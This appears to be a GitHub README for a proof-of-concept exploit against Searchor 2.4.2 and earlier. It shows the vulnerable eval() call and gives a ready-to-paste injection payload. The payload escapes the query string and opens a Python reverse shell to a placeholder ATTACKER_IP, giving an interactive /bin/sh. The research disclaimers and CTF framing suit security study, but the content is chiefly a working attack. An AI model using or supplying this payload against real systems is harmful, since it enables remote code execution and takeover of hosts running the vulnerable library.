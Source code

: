 # POC-Searchor-2.4.2
eval() Exploit POC for Searchor 2.4.2 and lower

vulnerability Reference: https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b

* This is displayed for research purposes only and found during CTF

Vulnerable code includes eval() methods as here

```python
url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

If user parameter `query` is not sanitized it leads to RCE.

* Exploit code for linux target

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

```

## DISCLAIMER

* this is posted for research purpose only
* use the newest Searcher version to be safe: https:/I/github.com/ArjunSharda/Searchor
* using this against other web sites is subject to criminal punishment!
